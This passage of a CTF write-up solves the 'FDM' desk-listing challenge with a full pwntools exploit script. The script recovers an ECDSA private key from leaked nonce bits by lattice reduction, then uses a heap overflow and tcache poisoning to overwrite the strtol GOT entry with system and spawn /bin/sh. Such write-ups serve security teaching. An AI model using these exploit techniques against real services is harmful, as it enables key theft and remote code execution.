  char *null_ptr;
  char buf [8];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  buf[0] = '\0';
  buf[1] = '\0';
  buf[2] = '\0';
  buf[3] = '\0';
  buf[4] = '\0';
  buf[5] = '\0';
  buf[6] = '\0';
  buf[7] = '\0';
  null_ptr = (char *)0x0;
  if (param_1) {
    printf("> ");
  }
  __isoc99_scanf("%7s%*c",buf);
  strtol(buf,&null_ptr,10);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

Also the actual new `fd` address must be `0x20` bytes before the target GOT entry, as the description starts at offset `0x20` of the desk info struct (using desk description instead of name as it doesn't add the string terminator).

The target libc function used is `system`.

Here is the code to complete the attack and obtain a shell:

```py
protect_ptr = lambda pos, ptr: (pos >> 12) ^ ptr

VICTIM_CHUNK_HEAP_OFFSET = 0x14c00
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59,
    b'E', # padding
    # end of struct:
    b'E'*8, # victim chunk's size field
    protect_ptr(heap_leak + (VICTIM_CHUNK_HEAP_OFFSET - HEAP_LEAK_OFFSET), exe.got['strtol']-0x20)
))

add_listing_beta_confirm()

# pop the victim chunk from the tcache linked list
add_listing_beta()
add_listing_beta_insert(b'F'*6, b'F'*8)
add_listing_beta_confirm()


# this chunk is being allocated at strtol@got-0x20
add_listing_beta()

# now leak libc base
add_listing_beta_insert(b'', p8(libc.sym['strtol'] & 0xff)) # fix to send input and keep strtol address unaltered

add_listing_beta_preview()
ru(b'Description: ')
strtol_leak = rl(keepends=False)
strtol_leak = u64(strtol_leak + bytes(8-len(strtol_leak)))
libc.address = strtol_leak - libc.sym['strtol']
log.info(f'{libc.address = :x}')

# now overwrite strtol@got entry with libc's system()
add_listing_beta_insert(b'', p64(libc.sym['system']))

# now the add listing BETA interaction menu asks for user input for the menu option to pick and the input is passed to strtol which is now system
sla(b'> ', b'/bin/sh')
```

A `/bin/sh` shell should be popped, now just read the flag with `cat flag.txt` :)




### Solution script

<details>
<summary>Full Solution Script</summary>

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import os
import struct
from pwn import (
    context,
    ELF,
    args,
    gdb,
    process,
    connect,
    flat,
    log,
    u64,
    u32,
    p8,
    p64
)

from hashlib import sha256
from sage.all import (
    EllipticCurve,
    GF,
    matrix,
    ZZ,
    Integer
)
from math import log2, ceil, modf
from Crypto.Util.number import bytes_to_long, inverse


exe = context.binary = ELF(args.EXE or './FDM')
libc = exe.libc

nc = 'localhost 1337'
nc = nc.split()
if len(nc) == 3:
    host, port = nc[1:]
else:
    host, port = nc[:2]

host = args.HOST or host
port = int(args.PORT or port)

def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main

set follow-fork-mode parent

continue
'''.format(**locals())

ru  = lambda *x, **y: io.recvuntil(*x, **y)
rl  = lambda *x, **y: io.recvline(*x, **y)
rc  = lambda *x, **y: io.recv(*x, **y)
sla = lambda *x, **y: io.sendlineafter(*x, **y)
sa  = lambda *x, **y: io.sendafter(*x, **y)
sl  = lambda *x, **y: io.sendline(*x, **y)
sn  = lambda *x, **y: io.send(*x, **y)
ia  = lambda *x, **y: io.interactive(*x, **y)

protect_ptr = lambda pos, ptr: (pos >> 12) ^ ptr

def decrypt_ptr(val):
    mask = 0xfff << (64-12)
    while mask:
        v = val & mask
        val ^= v >> 12
        mask >>= 12
    return val


def randrange(a, b):
    while True:
        tmp = bytes_to_long(os.urandom((ceil(log2(b)) + 7) // 8))
        if a <= tmp < b:
            return tmp


# init secp256r1 curve
p = 0xffffffff00000001000000000000000000000000ffffffffffffffffffffffff
a = 0xffffffff00000001000000000000000000000000fffffffffffffffffffffffc
b = 0x5ac635d8aa3a93e7b3ebbd55769886bc651d06b0cc53b0f63bce3c3e27d2604b
n = 0xffffffff00000000ffffffffffffffffbce6faada7179e84f3b9cac2fc632551
E = EllipticCurve(GF(p), [a, b])
E.set_order(n)
G = E(0x6b17d1f2e12c4247f8bce6e563a440f277037d812deb33a0f4a13945d898c296, 0x4fe342e2fe1a7f9b8ee7eb4a7c0f9e162bce33576b315ececbb6406837bf51f5)

EXISTING_LISTINGS_COUNT = 40
UNLEAKABLE_COUNT = 18
LEAKS_OFFSETS = [None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, None, 107, 112, 101, 98, 95, 84, 89, 78, 67, 72, 61, 58, 55, 44, 49, 38, 27, 32, 21, 18, 15, 5]
N_BITS = 256
LEAK_BITS = 32
UNK_BITS = N_BITS - LEAK_BITS


def sign(msg:bytes, d:int):
    z = bytes_to_long(sha256(msg).digest())
    k = randrange(1, n)
    T = k * G
    r = int(str(T[0])) % n
    if r == 0:
        raise Exception('amazingly unlucky random number r')
    s = (Integer(inverse(k, n)) * (z + d * r)) % n
    if s == 0:
        raise Exception('amazingly unlucky random number s')
    return (r, s)


# menu interactions
def auth(pub_key):
    sla(b'> ', b'1') # login menu

    log.info(f'logging in with {pub_key[:2] = }')
    sla(b'Give me your ECDSA Public Key to be used: ', '{}, {}'.format(*pub_key[:2]).encode())


def get_listing_public_key(index):
    sla(b'> ', b'5') # check sale authenticity

    sla(b'Insert listing id: ', b'%d' % index)
    ru(b'Poster public key: ')
    return E(*list(map(int, rl(keepends=False).decode().split(", "))))


# prices can contain leaks from uninitialized malloc chunks
def get_all_listings_prices():
    sla(b'> ', b'4') # list desks

    leaks = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Price: ')
        price_f = float(rl(keepends=False))
        leak_bytes = struct.pack('>f', price_f)
        leaks.append((price_f, leak_bytes))
    return leaks


def get_all_listings_hashes():
    sla(b'> ', b'4') # list desks

    hashes = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Name: ')
        name =  rl(keepends=False)
        ru(b'Description: ')
        desc =  rl(keepends=False)
        ru(b'Depth: ')
        depth = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Width: ')
        width = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Height: ')
        height = struct.pack('<f', float(ru(b'cm', drop=True)))

        hashable_desk = flat(
            name.ljust(32, b'\x00'),
            desc.ljust(256, b'\x00'),
            depth, width, height
        )
        sha_hash = bytes_to_long(sha256(hashable_desk).digest())
        hashes.append(sha_hash)
    return hashes


# add a listing triggering the unitialized malloc chunk allocation (for later leak)
def add_dummy_leak_listing(name = b'A'*6, desc = b'A'*8):
    sla(b'> ', b'1') # add desk listing

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the listing description: ', desc)
    # make scanf fail by sending '-' as price
    sla(b'Insert your target listing price: ', b'-')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1') # send measures


def dump_existing_crypto():
    signatures = []

    for i in range(EXISTING_LISTINGS_COUNT): # only dump pre-existing listings
        sla(b'> ', b'5') # check sale authenticity

        sla(b'Insert listing id: ', b'%d' % (i+1)) # listings are 1-indexed
        ru(b'Signature: ')
        r = int(ru(b', ', drop=True))
        s = int(rl(keepends=False))
        signatures.append((r, s))

    return signatures


def logout():
    sla(b'> ', b'7') # logout


def try_gold_user_login(d):
    auth(gold_user_Q)
    ru(b"Please sign this One Time Code to verify it's you: ")
    otp = bytes.fromhex(rl(keepends=False).decode())
    r, s = sign(otp, calc_d)
    sl(f"{r}, {s}".encode())
    return b"OK!" in ru(b'OK! Will be using', timeout=2)


def remove_listing(idx):
    sla(b'> ', b'3') # remove listing

    sla(b'Insert listing ID to remove: ', b'%d' % idx)


def add_listing_beta():
    sla(b'> ', b'1') # add desk listing

    sla(b'Do you want to try out our new BETA features? (y/n): ', b'y')


def add_listing_beta_insert(name, desc):
    sla(b'> ', b'1') # insert data

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the color-formatted listing description: ', desc)
    sla(b'Insert your target listing price: ', b'1')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1') # send measures


def add_listing_beta_preview():
    sla(b'> ', b'2') # preview ad


def add_listing_beta_confirm():
    sla(b'> ', b'3') # confirm data


# init attack

# generate user key
my_d = randrange(1, n)
my_Q = my_d * G

io = start()

auth(my_Q)

gold_user_Q = get_listing_public_key(1)

signatures = dump_existing_crypto()


for _ in range(130):
    add_dummy_leak_listing()

listings = get_all_listings_prices()
listings_hashes = get_all_listings_hashes()

nonce_leaks = [listings[LEAKS_OFFSETS[idx]] for idx in range(UNLEAKABLE_COUNT, len(signatures))]
hashes = listings_hashes[len(listings)-EXISTING_LISTINGS_COUNT:-UNLEAKABLE_COUNT][::-1]

assert len(set(hashes)) == len(hashes)
assert len(nonce_leaks) == len(hashes)

# collect signatures data
r, s, z, leaks = [], [], [], []
for i, ((price_f, leak_bytes), sha_hash) in enumerate(zip(nonce_leaks, hashes)):
    # only consider leak if price_f isn't represented as 0 and there's no decimal part in the float, as it could have been approximated by the printf's %.2f 2 decimal digits limit
    if abs(price_f) > 0 and abs(modf(price_f)[0]) < 1e-2:
        r.append(signatures[UNLEAKABLE_COUNT+i][0])
        s.append(signatures[UNLEAKABLE_COUNT+i][1])
        z.append(sha_hash)
        leaks.append(u32(leak_bytes, endian="big"))

log.info(f'obtained {len(leaks)} 32 MSB bits partial nonce leaks with relative signatures!')

assert len(leaks) >= 9


# build the lattice and run lattice reduction algorithm on it
a = [leaki << UNK_BITS for leaki in leaks]
t = [-pow(si, -1, n) * s[-1] * ri * pow(r[-1], -1, n) for ri, si in zip(r[:-1], s[:-1])]
u = [pow(si, -1, n) * ri * z[-1] * pow(r[-1], -1, n) - pow(si, -1, n) * zi for ri, si, zi in zip(r[:-1], s[:-1], z[:-1])]
u = [ai + a[-1] * ti + ui for ui, ai, ti in zip(u, a[:-1], t)]

# k1 + t1*km + u1 == 0 mod n
# ...
# km-1 + tm-1*km + um-1 == 0 mod n

K = 2**UNK_BITS

# |k1|, ..., |km| < K

L = [[0 for __ in range(len(t)+2)] for _ in range(len(t)+2)]

for i in range(len(t)):
    L[i][i] = n
for i, (ti, ui) in enumerate(zip(t, u)):
    L[-2][i] = ti
    L[-1][i] = ui

L[-2][-2] = 1
L[-1][-1] = K

L = matrix(ZZ, L)

L = L.BKZ()

logout()

d = None
for v in L:
    b = list(map(lambda x: abs(x), v[:-1]))
    k = [ai + bi for ai, bi in zip(a, b)]
    if (inverse(r[0], n) * ((k[0] * s[0]) - z[0])) % n == (inverse(r[1], n) * ((k[1] * s[1]) - z[1])) % n:
        calc_d = (inverse(r[0], n) * ((k[0] * s[0]) - z[0])) % n
        calc_Q = calc_d*G

        if calc_Q != gold_user_Q:
            continue

        if not try_gold_user_login(calc_d):
            continue

        log.info(f'private key d calculated: {calc_d}')
        d = calc_d
        break

if d is None:
    log.info('Couldnt find private key d')
    quit()

# second pwn part

# get PIE and heap leak
add_listing_beta()
add_listing_beta_insert(b'B'*6, flat(
    b'$RED'*56, # use description buffer overflow of format_colors function to reach the poster_Q field (pointer to binary's virtual memory address space)
    b'B'*8
))
add_listing_beta_preview()
ru(b'B'*8)
user_q_leak = rl(keepends=False)
user_q_leak = u64(user_q_leak + bytes(8-len(user_q_leak)))
exe.address = user_q_leak - exe.sym['user_Q']
log.info(f'{exe.address = :x}')

add_listing_beta_confirm()


add_listing_beta()
add_listing_beta_insert(b'C'*6, b'C'*8)
add_listing_beta_confirm()

add_listing_beta()
add_listing_beta_insert(b'D'*6, b'D'*8)
add_listing_beta_confirm()

# free the last 3 ads (will end up in tcache)
remove_listing(1)
remove_listing(1)
remove_listing(1)

# this will give back the last free'd chunk (BBBBBB)
add_listing_beta()
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59, # '$RED'*59 gets expanded into '\x1b[31m'*59 allowing heap overflow
    b'X', # padding
    # end of struct:
    b'E'*8, # next (victim) chunk's size
))

add_listing_beta_preview()
ru(b'E'*8)
mangled_heap_leak = rl(keepends=False) # this is victim chunk's safe linked fwd pointer from tcache
mangled_heap_leak = u64(mangled_heap_leak + bytes(8-len(mangled_heap_leak)))
heap_leak = decrypt_ptr(mangled_heap_leak)
log.info(f'{heap_leak = :x}')

HEAP_LEAK_OFFSET = 0x14d50

# now both PIE base and heap leak are known


VICTIM_CHUNK_HEAP_OFFSET = 0x14c00
# perform tcache poisioning attack: overwrite victim chunk's fwd pointer to contain a Global Offset Table address (must be 0x10 aligned and safe linked back).
# a perfect fit GOT function target to overwrite is strtol, as it gets called with user-controlled RDI string parameter in pick_opt() function.
# -0x20 offset is to overwrite the GOT entry with desk description instead of name, as it doesn't add a terminator.
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59,
    b'E', # padding
    # end of struct:
    b'E'*8, # victim chunk's size field
    protect_ptr(heap_leak + (VICTIM_CHUNK_HEAP_OFFSET - HEAP_LEAK_OFFSET), exe.got['strtol']-0x20)
))

add_listing_beta_confirm()

# pop the victim chunk from the tcache linked list
add_listing_beta()
add_listing_beta_insert(b'F'*6, b'F'*8)
add_listing_beta_confirm()


# this chunk is being allocated at strtol@got-0x20
add_listing_beta()

# now leak libc base
add_listing_beta_insert(b'', p8(libc.sym['strtol'] & 0xff)) # fix to send input and keep strtol address unaltered

add_listing_beta_preview()
ru(b'Description: ')
strtol_leak = rl(keepends=False)
strtol_leak = u64(strtol_leak + bytes(8-len(strtol_leak)))
libc.address = strtol_leak - libc.sym['strtol']
log.info(f'{libc.address = :x}')

# now overwrite strtol@got entry with libc's system()
add_listing_beta_insert(b'', p64(libc.sym['system']))

# now the add listing BETA interaction menu asks for user input for the menu option to pick and the input is passed to strtol which is now system
sla(b'> ', b'/bin/sh')
# shell should get popped :D


if not args.NO_INTERACTIVE:
    ia()
```

</details>